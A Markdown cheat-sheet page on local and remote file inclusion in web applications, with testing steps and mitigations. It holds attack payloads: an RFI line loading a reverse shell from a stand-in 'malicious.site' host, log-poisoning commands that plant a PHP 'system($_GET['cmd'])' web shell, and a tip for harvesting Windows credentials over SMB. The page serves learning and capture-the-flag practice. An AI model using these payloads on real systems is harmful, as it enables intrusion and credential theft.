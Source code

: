 # File inclusion

[![fileinc](../../../../_badges/thmp/fileinc.svg)](https://tryhackme.com/room/fileinc)
[![fileinclusion](../../../../../cybersecurity/_badges/htb/fileinclusion.svg)](https://academy.hackthebox.com/course/preview/file-inclusion)

<div class="row row-cols-lg-2"><div>

A web application might import/include files based on data from the user. This involves using the user input to:

* 🐚 determine configuration files to include
* 🌍 determine language files to include
* ...

If the user input isn't properly sanitized, the user may be able to control which files are included, which may allow them:

* 🗺️ To read local or remote files
* 📚 To leverage a [SSRF](ssrf.md) attack <small>(port mapping, steal files, etc.)</small>
* 🐲 To execute code <small>(either uploaded code, remote code, or using logs)</small>

Code/data exposure may further compromise the infrastructure.
</div><div>

There are two categories of file inclusion:

* **Local File Inclusion (LFI)** 🏠: include a local file
* **Remote File Inclusion (RFI)** ✈️: include a remote file

<br>

Additional notes:

* 🤖 Not all include functions can execute code
* 📌 Template engines are more likely to contain LFI/RFI.
* 🐲 While LFI/RFI often involve HTTP, we can also use `ftp://`
* 🔑 Try `\\YOURIP\share\` RFI on Windows to [harvest credentials](/cybersecurity/red-team/_knowledge/topics/request_grabber.md)
* 😎 For RFI, try a local URLs first <small>(ex: `http://127.0.0.1:80/index.php`)</small>, as remote URLs may be blocked by a firewall
</div></div>

<hr class="sep-both">

## Basic Methodology

[![fileinc](../../../../_badges/thmp/fileinc.svg)](https://tryhackme.com/room/fileinc)
[![fileinclusion](../../../../../cybersecurity/_badges/htb/fileinclusion.svg)](https://academy.hackthebox.com/course/preview/file-inclusion)

<div class="row row-cols-lg-2"><div>

Assuming you found some vectors that might lead to a LFI/RFI:

* 📚 Headers
* 📄 Forms
* 🍪 Cookies
* ...

You might try to play around with the value to see if it works.
</div><div>

Assuming we have `page=about`.

* Test Path: `./about`
* Test Null-Byte: `./about.php%00`
* Test [Path Traversal](traversal.md): `../<folder name>/about`
* Test engine-specific payloads, such as `php://filter`
* Test Remote File Inclusion
* ...

For a list of interesting files to read, aside from the website source code and configuration files, refer to [arbitrary file read](/cybersecurity/red-team/s3.exploitation/vulns/cheatsheet/arbitrary_file_access.md).
</div></div>

<hr class="sep-both">

## PHP File Inclusion

[![fileinc](../../../../_badges/thmp/fileinc.svg)](https://tryhackme.com/room/fileinc)
[![fileinclusion](../../../../../cybersecurity/_badges/htb/fileinclusion.svg)](https://academy.hackthebox.com/course/preview/file-inclusion)
[![directory_traversal](../../../../_badges/rootme/web_server/directory_traversal.svg)](https://www.root-me.org/en/Challenges/Web-Server/Directory-traversal)
[![local_file_inclusion](../../../../_badges/rootme/web_server/local_file_inclusion.svg)](https://www.root-me.org/en/Challenges/Web-Server/Local-File-Inclusion)
[![php_filters](../../../../_badges/rootme/web_server/php_filters.svg)](https://www.root-me.org/en/Challenges/Web-Server/PHP-Filters)
[![php_assert](../../../../_badges/rootme/web_server/php_assert.svg)](https://www.root-me.org/en/Challenges/Web-Server/PHP-assert)
[![remote_file_inclusion](../../../../_badges/rootme/web_server/remote_file_inclusion.svg)](https://www.root-me.org/en/Challenges/Web-Server/Remote-File-Inclusion)
[![xslt_code_execution](../../../../_badges/rootme/web_server/xslt_code_execution.svg)](https://www.root-me.org/en/Challenges/Web-Server/XSLT-Code-execution)
[![local_file_inclusion_wrappers](../../../../_badges/rootme/web_server/local_file_inclusion_wrappers.svg)](https://www.root-me.org/fr/Challenges/Web-Serveur/Local-File-Inclusion-Wrappers)
[![pyrat_auction](../../../../_badges/rootme/realist/pyrat_auction.svg)](https://www.root-me.org/en/Challenges/Realist/PyRat-Auction-83)
[![local_file_inclusion_double_encoding](../../../../_badges/rootme/web_server/local_file_inclusion_double_encoding.svg)](https://www.root-me.org/en/Challenges/Web-Server/Local-File-Inclusion-Double-encoding)

<div class="row row-cols-lg-2"><div>

The URL `http://example.com/?lang=fr` associated with the code below is an example of a vulnerable PHP code.

```php!
include "lang/$_GET[lang].php" // It loads lang/fr.php
```

💥 PHP `include`/`require` function executes PHP code.

⚔️ We can use [Path traversal](traversal.md) or [PHP Wrappers](files/wrappers.md) to include a malicious file, such as one we uploaded using another attack or execute code.
</div><div>

**Local File Inclusion (LFI)** 🏠: inject a local file

```php!
// ex: we uploaded a reverse shell (a fake PNG)
// as our avatar (avatar.png), then we could use:
include "lang/../uploads/avatar.png";
include "phar://<refer to php wrappers>";
```

**Remote File Inclusion (RFI)** ✈️: inject a remote file

```php!
// 🛑 allow_url_fopen MUST BE SET TO true
include "http://malicious.site/reverse_shell.php";
include "data://<refer to php wrappers>";
```
</div></div>

<hr class="sep-both">

## Log Poisoning

[![fileinclusion](../../../../../cybersecurity/_badges/htb/fileinclusion.svg)](https://academy.hackthebox.com/course/preview/file-inclusion)

<div class="row row-cols-lg-2"><div>

If the vulnerable function can execute code, we may not have to upload a webshell, we can inject PHP code in the logs and read the logs to execute the injected code.

Note that logs must be readable by the web application. Nginx logs are readable by anyone, but not Apache logs.

```ps
# Ex: load /var/log/apache2/access.log / ...
$ curl [...] -A "<?php system(\$_GET['cmd']); ?>"
```

👉 `/proc/self/environ` or `/proc/self/fd/<0-50>` will contains the User-Agent too, but they may not be readable either.
</div><div>

We can alternatively poison ssh logs <small>(username)</small>, ftp logs, etc.

```ps
$ ssh '<?php /*code*/ ?>'@IP # Ex: /var/log/auth.log
```

#### PHP Sessions

If the session contains a value that we control, we can inject PHP code in this value, then we can read the session file.

* `/var/lib/php/sessions/sess_<session id>`
* `C:\Windows\Temp\sess_<session id>`
</div></div>

<hr class="sep-both">

## File Inclusion Filter By-Pass

Refer to [Path Traversal Bypass filters](traversal.md#path-traversal-bypass-filters).

<hr class="sep-both">

## File Inclusion Mitigation 🛡️

[![fileinc](../../../../_badges/thmp/fileinc.svg)](https://tryhackme.com/room/fileinc)
[![fileinclusion](../../../../../cybersecurity/_badges/htb/fileinclusion.svg)](https://academy.hackthebox.com/course/preview/file-inclusion)

<div class="row row-cols-lg-2"><div>

* 🪲 Do not use user-controlled input to include a file, whether the input is from the database or from a form.

* 🫧 Use whitelists <small>(switch-case value to file, maps, etc.)</small>, and avoid directly using user-controlled input

* 🕸️ If allowing paths, refer to path traversal mitigations
</div><div>

* 🔒 Use docker or a similar technology to isolate the application OR lock web applications to their web root directory. In PHP, we can set the `open_basedir` variable in the PHP INI file. Beware that configuration files will still be accessible.

* 🔫 Use additional verifications such as using `realpath` in path to ensure the files are within the allowed directories

* 📚 Use additional tools such as a WAF, etc.
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* Second Order Attack (poisoned database entry)
* `/var/log/sshd.log`
* `/var/log/vsftpd.log`
</div><div>

* [LFISuite](https://github.com/D35m0nd142/LFISuite) <small>(1.6k ⭐, 2018 🪦)</small>
* [LFiFreak](https://github.com/OsandaMalith/LFiFreak) <small>(0.2k ⭐, 2015 🪦)</small>
* [liffy](https://github.com/mzfr/liffy) <small>(0.7k ⭐)</small>
</div></div>